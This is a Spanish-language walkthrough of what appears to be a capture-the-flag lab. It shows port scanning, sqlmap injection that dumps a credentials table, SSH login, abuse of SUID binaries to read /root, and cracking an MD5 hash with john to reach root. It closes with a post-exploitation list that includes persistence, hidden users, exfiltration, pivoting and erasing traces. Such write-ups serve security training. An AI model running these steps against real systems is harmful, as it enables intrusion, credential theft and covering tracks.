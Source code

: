 # 🛡️ Guía de Explotación y Escalada de Privilegios

## 1. 📡 Comprobación de Conectividad

```bash
ping 172.17.0.2
```

---

## 2. 🔍 Escaneo de Puertos Abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

✅ **Puertos abiertos detectados:**

| Puerto | Servicio |
|--------|----------|
| 22/tcp | SSH      |
| 80/tcp | HTTP     |

---

## 3. 🔎 Detección de Versiones de Servicios

```bash
nmap -p22,80 -sCV 172.17.0.2
```

**Resultados:**

| Puerto | Servicio                      |
|--------|-------------------------------|
| 22/tcp | OpenSSH 9.2p1 Debian 2+deb12u3 |
| 80/tcp | Apache httpd 2.4.61 (Debian)   |

---

## 4. 📁 Enumeración de Directorios vía HTTP

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt
```

❌ No se encontraron directorios relevantes.

🔍 Sin embargo, **se detectó un `login.html`** manualmente.

---

## 5. 💉 Pruebas de Inyección SQL con `sqlmap`

### a. Enumeración de bases de datos

```bash
sqlmap -u http://172.17.0.2/login.html --forms --dbs --batch
```

**Bases de datos disponibles:**

- information_schema  
- mysql  
- performance_schema  
- sys  
- users ✅

### b. Tablas en la base de datos `users`

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users --tables
```

| Tabla     |
|-----------|
| usuarios  |

### c. Columnas en la tabla `usuarios`

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios --columns
```

| Columna  | Tipo          |
|----------|---------------|
| id       | int(11)       |
| username | varchar(255)  |
| password | varchar(255)  |

### d. Extracción de datos

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios --dump
```

| ID | Username | Password      |
|----|----------|---------------|
| 1  | paco     | $paco$123     |
| 2  | pepe     | P123pepe3456P |
| 3  | juan     | jjuuaann123   |

---

## 6. 🔐 Acceso vía SSH

```bash
ssh pepe@172.17.0.2
```

✅ Acceso conseguido con el usuario **pepe**

⚠️ No se encuentra el comando `sudo`.

---

## 7. 🔍 Búsqueda de Archivos con Permisos SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Resultados interesantes:**

- `/usr/bin/ls`
- `/usr/bin/grep`

---

## 8. 🕵️ Acceso a `/root` con SUID

```bash
ls /root
```

✅ Archivo encontrado: `pass.hash`

---

## 9. 🔓 Descifrado de Hash con `john`

### Contenido del archivo `pass.hash`:

```
e43833c4c9d5ac444e16bb94715a75e4
```

### Comando utilizado:

```bash
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Resultado:

✅ Contraseña encontrada: **spongebob34**

---

## 10. 🧠 Tabla Explicativa del Comando `john`

| Parte del Comando                                      | Explicación                                                                 |
|--------------------------------------------------------|-----------------------------------------------------------------------------|
| `john`                                                 | Ejecuta la herramienta John the Ripper.                                    |
| `--format=raw-md5`                                     | Especifica el tipo de hash (en este caso MD5 sin sal).                     |
| `hash.txt`                                             | Archivo que contiene el hash a descifrar.                                  |
| `--wordlist=/usr/share/wordlists/rockyou.txt`          | Diccionario de palabras comunes que se usarán para intentar descifrarlo.   |

---

## 11. 🧑‍💻 Escalada a Root

Con la contraseña **spongebob34**, se obtiene acceso como **root**.

---

## 12. 🔐 Post-Explotación

Acciones sugeridas tras obtener acceso root:

- ✅ Establecer persistencia  
- 👤 Crear un usuario oculto  
- 🔐 Añadir clave pública SSH  
- 📂 Exfiltrar información sensible  
- 🌐 Explorar red interna  
- 🔄 Realizar pivoting a otras máquinas  
- 🧹 Eliminar rastros  
- ⚠️ *Destrucción del sistema (no recomendada)*
